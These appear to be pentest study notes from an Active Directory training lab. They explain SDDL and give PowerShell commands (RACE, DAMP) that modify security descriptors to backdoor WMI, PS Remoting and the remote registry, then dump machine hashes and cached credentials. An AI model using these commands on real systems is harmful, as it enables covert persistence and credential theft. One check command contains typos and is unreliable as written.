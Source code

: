 # Security Descriptors - WMI

## Format

Security Descriptor Definition Language (SDDL) defines the format which is used to describe a security descriptor.&#x20;

{% tabs %}
{% tab title="Syntax" %}
`ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid`
{% endtab %}
{% endtabs %}

Detailed docs about SDDL:

{% embed url="https://learn.microsoft.com/en-us/windows/win32/secauthz/ace-strings" %}

## Exploitation

Once we have administrator privileges it is possible to create a backdoor by modifying Security Descriptors like Owner, primary group, DACL and SACL of multiple remote access methods to allow access to non-admin users.

### WMI - GUI

It is possible to add the non-admin user to the ACE using the `Component Services` and `Computer Management`.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>Component Services</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>Computer Management</p></figcaption></figure>

Apply to all namespaces

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>Computer Management</p></figcaption></figure>

<pre class="language-powershell"><code class="lang-powershell"><strong># Check if worked
</strong><strong># Worked if didn't get access denied 
</strong><strong>Get-wmiobject -Class win32_opratingsystem -ComupterName &#x3C;dc_machine>
</strong></code></pre>



### WMI - PowerShell

ACE for built-in administrators for WMI namespaces `A;CI;CCDCLCSWRPWPRCWD;;;SID`

in order to get access to WMI namespaces attacker needs to create a new ACE with the `SID` to non-admin user which he controls.

ACLs can be modified to allow non-admin users using the [RACE toolkit](https://github.com/samratashok/RACE):

{% hint style="danger" %}
Require Domain Admin privileges
{% endhint %}

```powershell
# Loading the module
. C:\AD\Tools\RACE-master\RACE.ps1


Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose

# with explicit credentials
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose

# Remove
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose



```

PS Remoting (not stable after August 2020 patches)

```powershell
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose

# Remove
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
```

### Remote Registry

**Reg backdoo**r using [DAMP](https://github.com/HarmJ0y/DAMP) Tool allows to non-admin user to retrieve the hash of the computer, the SAM and cached credentials in the computer:

```bash
# Modify ACE with admin privs
Add-RemoteRegBackdoor -ComputerName <remotehost> -Trustee student1 -Verbose

# retrieve machine hash
Get-RemoteMachineAccountHash -ComputerName <remotehost> -Verbose

# retrieve local account hash
Get-RemoteLocalAccountHash -ComputerName <remotehost> -Verbose

# retrieve domain cached credentials
Get-RemoteCachedCredential -ComputerName <remotehost> -Verbose
```

